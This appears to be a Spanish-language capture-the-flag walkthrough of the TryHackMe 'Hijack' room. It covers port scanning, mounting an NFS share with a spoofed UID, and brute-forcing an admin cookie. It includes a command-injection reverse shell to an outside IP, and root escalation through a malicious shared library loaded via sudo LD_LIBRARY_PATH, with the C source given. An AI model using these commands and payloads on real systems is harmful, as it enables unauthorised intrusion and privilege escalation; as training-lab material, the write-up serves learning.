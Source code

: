 ```yaml
---
title: "Hijack"
description: "Hijack"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/hijack

# Fase de reconocimiento

## Buscar puertos abiertos

````
nmap -sT -Pn -p- --open --min-rate 5000 -T5 -vvv -n 10.10.147.135 -oG allports
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240429211657.png)

## Reconocimiento de servicios

````
nmap -sCV -p21,22,80,111 10.10.147.135 -oN targeted
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240429211826.png)

## Comprobar el RPC

En nuesttro caso es un network file system

````
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.147.135
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240429221013.png)

Lo montamos en nuestro sistema

````
mount 10.10.147.135:/mnt/share /mnt/hijack
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240429222200.png)
Los permisos son de 1003

1. Creamos un usuario con ese UID y GIUD

````
groupadd -g 1003 hijacker
useradd -u 1003 -g 1003 hijacker
passwd hijacker
````

2. Nos conectamos con el ususario

````
su hijacker
````

3. Cuando listamos el directorio contiene un archivo
   Este archivo contiene las credenciales FTP
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240429222800.png)

## Gobuster

````
gobuster dir -u http://10.10.147.135 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240429213924.png)

# Fase de ataque

## FTP

Nos conectamos con las credenciales dadas
Encontramos un fichero

````
ftp> ls -la
````

Los ficheros contienen un aviso de admin de que el otro fichero son contraseñas para su uso.

## Burpsuite

Podemos observar que en el login de la web, si el usuario no existe te lo reporta.
Vemos que el usuario ADMIN si existe

1. Con Burpsuite capturamos la petición
1. Vemos que podemos modificar la cookie y que la cookie concide con la contraseña y usuario
1. Hasheamos la contraseña

````
for i in $(cat passwords.txt); do echo -n "$i" | md5sum | tr -d " -" >>hash.txt; done
````

4. URLencondeamos la contraseña

````
for i in $(cat hash.txt); do echo -n "admin:$i" | base64 | tr -d " -" >> passwrdcode.txt; done
````

5. Cargamos el intruder con las Cookies creadas
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240429233349.png)
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240429233402.png)
   Enontramos la Cookie del Admin
5. Modificamos la Cookie en el navegador
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240429233626.png)

## Entramos al panel

1. Lanzamos el la Reverse shell

````
sshd && bash -c 'bash -i >& /dev/tcp/10.9.2.97/1111 0>&1'
````

3. Nos ponemos en escucha por el puerto 443 para recibir la Shell

````
nc -nlvp 1111
````

\[-\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

Ajustar proporciones

````
stty rows 44 columns 184
````

# Privilege Escalation

Dentro de config.php está el usuario y contraseña de un usuario
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240429235529.png)
Nos conectamos
Podemos ejecutar el siguiente comando con contraseña para saber que comandos con privilegioss puede utilizar el usuario

````
sudo -l
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240429235602.png)

## LD_LIBRARY_PATH

1. Creamos un programa en C en /tmp que lanza una terminal root

````
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
````

2. Compilamos

````
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /tmp/shell.c
````

3. Ejecutamos el shell con el comando con privilegios

````
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
````

\[+\] ==pwned!==
